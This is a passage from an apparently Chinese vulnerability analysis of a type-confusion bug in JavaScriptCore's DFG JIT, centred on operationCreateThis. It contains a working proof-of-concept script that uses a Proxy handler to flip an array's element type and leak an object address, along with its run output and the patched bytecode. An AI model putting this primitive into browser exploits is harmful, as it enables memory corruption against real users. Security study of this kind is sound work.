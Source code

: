 其中的操作`SValue proto = constructor-&gt;get(globalObject, vm.propertyNames-&gt;prototype);`会被我们JS层中的代理拦截，由此可以知道，`operationCreateThis`会回调JS层的代理函数。此时我们想到，在JS中的Proxy对象的handler中，我们可以操纵任意的对象，我们可以将参数arg的类型修改掉。于是这样构造

```
function foo(arg) `{`
   this.x = arg[0];
`}`

var trigger = false;
var arr = [1.1,2.2];

let handler = `{`
   get(target, prop) `{`
      if (trigger) `{`
         arr[0] = `{``}`;
      `}`
      return target[prop];
   `}`
`}`;

let foo_proxy = new Proxy(foo, handler);

var b;
for (var i=0;i&lt;0x2000;i++) `{`
   b = new foo_proxy(arr);
`}`

trigger = true;
b = new foo_proxy(arr);
print(b.x);
```

这样，当`CreateThis`回调了`handler`中的get函数时，`arr[0] = `{``}``将arr的类型改为了对象数组类型，不再是`unboxed double`，但是`CreateThis`回调结束以后，并没有重新对arg进行类型检查，仍然将其当做`unboxed double`类型，由此造成了类型混淆。<br>
运行结果如下，成功输出对象的地址

```
root@ubuntu:~/Desktop/bug_bin# ./jsc t.js
6.9532879215489e-310
```

修复漏洞以后的版本，其DFG JIT的字节码展开如下

```
[10]
CountExecution
CreateThis
MovHint
[18]
CountExecution
JSConstant
CheckStructure
GetButterfly
GetByVal
MovHint
ValueRep
```
